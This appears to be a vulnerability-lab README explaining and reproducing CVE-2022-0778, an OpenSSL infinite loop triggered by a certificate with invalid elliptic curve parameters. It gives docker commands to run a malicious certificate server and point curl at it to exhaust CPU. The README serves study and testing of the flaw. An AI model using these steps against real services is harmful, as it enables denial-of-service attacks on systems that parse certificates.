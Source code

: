 # Impact of the OpenSSL Infinite Loop Vulnerability (CVE-2022-0778)

[中文版本(Chinese version)](README.zh-cn.md)

OpenSSL is a software library for applications that secure communications over computer networks against eavesdropping or need to identify the party at the other end.

A flaw was found in OpenSSL. It is possible to trigger an infinite loop by crafting a certificate that has invalid elliptic curve parameters. Since certificate parsing happens before verification of the certificate signature, any process that parses an externally supplied certificate may be subject to a denial of service attack.

Reference links:

- <https://github.com/drago-96/CVE-2022-0778>
- <https://www.cnblogs.com/logchen/p/16030515.html>
- <https://catbro666.github.io/posts/83951100/>
- <https://github.com/yywing/cve-2022-0778>

## Vulnerability environment

Execute following command to start a server:

```
docker-compose up -d
```

## Reproduce vulnerability

Firstly, use [this project](https://github.com/vulhub/cve-2022-0778) to build and run an evil server. If you don't have the Golang compiler, just use the Docker image:

```
docker run -it --rm -p 12345:12345 yywing/cve-2022-0778 --addr 0.0.0.0:12345
```

Then you can monitor the CPU usage inside the container through `top`:

```
docker-compose exec curl top
```

This vulnerability is available when parsing the certificate, so we can use the cURL to demonstrate it.

Entry the environment, and use the cURL to browse the evil server that started before:

```
docker-compose exec curl bash
curl -k https://host.docker.internal:12345
```

At this point, cURL will be caught in an infinite loop, and CPU resources will be exhausted unexpectedly:

![](1.png)
